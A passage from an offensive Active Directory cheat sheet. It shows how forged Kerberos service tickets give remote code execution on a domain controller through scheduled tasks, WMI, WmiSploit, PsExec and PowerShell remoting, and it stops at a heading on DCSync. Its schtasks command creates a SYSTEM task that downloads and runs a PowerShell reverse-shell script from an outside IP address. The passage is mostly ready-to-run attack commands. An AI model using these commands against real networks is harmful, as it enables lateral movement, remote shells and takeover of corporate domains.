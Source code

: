 We just need to create a ticket for the `HOST` SPN which will allow us to schedule a task on the target. And then schedule and execute a task.

```powershell
schtasks /create /S dc01.corp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString('''http://10.10.10.10/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S dc01.corp.local /TN "STCheck"
```
> **Note**: Create a new schtask with different **TN** name for every try.

## Execute WMI queries

To execute WMI queries we just need to create a ticket for the `HOST` and `RPCSS`.

```powershell
Get-WmiObject -Class win32_operatingsystem -ComputerName $Computer

Invoke-WmiMethod win32_process -ComputerName $Computer -Name create -ArgumentList "$RunCommand"

wmic dc01.corp.local list full /format:list
wmic /node:target-computer-name process call create “cmd.exe /c task-name”
```
There are several scripts such as `WmiSploit` that helps to create a shell or execute commands on a target (similar to PSRemoting but with WMI).

```powershell
Enter-WmiShell -ComputerName dc01.corp.local -UserName user
Invoke-WmiCommand -ComputerName dc01.corp.local -Credential $cred -ScriptBlock {whoami}
```
> **Note** Import both modules `Enter-WmiShell.ps1` and `Invoke-WmiCommand` are used.

* [https://github.com/secabstraction/WmiSploit](https://github.com/secabstraction/WmiSploit)

## PsExec

To run commands on other machine with `PsExec` we just need to create a ticket for `CIFS` and `HOST` service.

```powershell
.\PsExec.exe -accepteula \\dc01.corp.local cmd
```

## PowerShell Remote

With winrm access over a computer you can access it with PowerShell Remote. A ticket with `HOST` and `WSMAN` is needed.

```powershell
$sess = New-PSSession -ComputerName dc01.corp.local
Enter-PSSession -Session $sess
```

## Dump DC database with DCSync
